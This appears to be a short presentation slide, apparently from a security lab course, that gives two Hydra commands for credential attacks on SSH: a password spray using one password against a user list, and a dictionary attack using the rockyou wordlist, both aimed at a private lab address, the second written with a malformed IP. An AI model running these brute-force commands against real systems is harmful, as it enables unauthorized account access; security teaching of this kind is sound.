

# How to Perform a Password Spraying Attack with Hydra
hydra -L users.txt -p butterfly 10.10.137.76 ssh
How to Perform a Dictionary Attack with Hydra
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 1010.137.76 ssh